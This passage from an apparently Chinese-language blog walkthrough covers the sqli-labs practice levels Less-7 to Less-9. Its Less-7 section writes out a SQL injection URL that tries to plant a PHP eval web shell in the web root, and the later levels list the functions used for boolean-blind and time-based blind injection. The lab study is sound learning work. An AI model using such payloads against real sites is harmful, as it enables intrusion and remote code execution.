 只给出语句正确或错误，题目提示文件操作相关

### 注入过程

构造语句 `http://192.168.130.128:8080/Less-7/?id=1')) and (select '<?php @eval($_POST["vwmin"]);?>' into file '/var/www/html/test.php') --+`，提示错误。进入容器执行了一下，报错信息为权限不足。可能因为是装在docker里的问题...

修改站点文件夹权限777，选择显示报错信息，尝试，

![1566698806138]({{ site.url }}\assets\2020-05-04-sqli-labs.assets\1566698806138.png)

我不懂了。下一个

## Less-8

### 分析

输入 `1'`, 没有显示；输入 `1' and '1'='1`，有显示。存在字符型注入，但是是盲注。

### 利用方法

`ord()`返回字符的ascii值

`length()` 用于猜解字段长度

`count()`用于猜解数量

`substring()`用于猜解内容

编写python脚本

### 注入结果

![1566784593064]({{ site.url }}\assets\2020-05-04-sqli-labs.assets\1566784593064.png)

## Less-9

### 分析

因为任何输入的反映都是一样的，就不分析了。

### 利用方式

`if(arg1, arg2, arg3)`如果arg1的值为true，返回arg2的值，否则返回arg3的值

`mid(columnName, from, lenth)`用法等同substring

`sleep(second)`挂起

### 注入结果

![1566800422077]({{ site.url }}\assets\2020-05-04-sqli-labs.assets\1566800422077.png)

过于缓慢...
